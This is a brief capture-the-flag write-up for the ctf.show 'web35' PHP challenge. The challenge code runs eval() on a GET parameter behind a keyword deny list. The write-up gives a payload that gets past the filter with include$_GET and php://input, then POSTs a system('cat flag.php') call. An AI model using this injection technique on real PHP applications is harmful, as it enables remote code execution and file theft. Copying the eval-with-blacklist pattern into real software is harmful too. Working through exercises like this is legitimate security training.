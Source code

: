 # web35

```php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"|\<|\=/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
}
```

多了小于号，和等号，对于上一题的payload不影响

```plaintext
https://9c2e6982-15a1-4368-983b-0151becdd0b2.challenge.ctf.show/?c=include$_GET["command"]?>&command=php://input

POST: <?php system("cat flag.php"); ?>
```

![img](img/image_20250202-190237.png)
